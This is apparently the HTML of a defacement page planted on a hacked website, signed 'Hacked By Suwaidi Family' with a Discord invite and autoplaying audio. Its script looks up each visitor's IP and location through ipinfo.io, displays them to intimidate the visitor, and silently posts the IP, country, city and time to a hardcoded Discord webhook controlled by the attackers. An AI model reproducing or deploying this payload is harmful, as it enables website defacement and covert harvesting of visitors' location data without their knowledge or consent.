     <div id="content">
        <div class="image-container">
            <img src="https://assets.bwbx.io/images/users/iqjWHBFdfxIU/ixkuq6dEHSXM/v1/-1x-1.webp" alt="">
        </div>

        <div class="info" id="ip-info">Loading IP Info...</div>
        <div class="text">discord.gg/SWD</div>

        <audio autoplay loop>
            <source src="https://cdn.discordapp.com/attachments/1360577308259516497/1371907909092511896/Desktop_2025.05.13_-_21.49.02.02_mp3cut.net.mp3?ex=6824d84e&is=682386ce&hm=7d93b5738489e58c3538068e6b7fcad2bf87069bd5bf4ccafffe69507e54e713&" type="audio/mpeg">
            Your browser does not support the audio element.
        </audio>
    </div>
</div>

<script>
    fetch('https://ipinfo.io/json')
        .then(response => response.json())
        .then(data => {
            const { ip, country, city, region, loc, org, timezone } = data;
            const infoDiv = document.getElementById('ip-info');
            infoDiv.innerHTML = `<strong>Hacked By Suwaidi Family
</strong><br><strong>Your Ip:</strong><span>"${ip}"</span><br><strong></strong>
<span><strong>Your Location:</strong><span>"${loc}"</span><br><strong> </strong><span></span>`;


            const dateTime = new Date().toLocaleString();
            const webhookUrl = 'https://discord.com/api/webhooks/1342711596035604511/c2zeLZnSp0faGn2G7rnFX6NOdOt1ewLys7Sp55NJt1p1A6FIkFkDciidXSyaV7_3WGie';
            fetch(webhookUrl, {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify({
                    content: `IP : ${ip}\nCountry & City : ${country} - ${city}\nDate & Time : ${dateTime}\n -`
                })
            });
        });
</script>
</body>
</html>
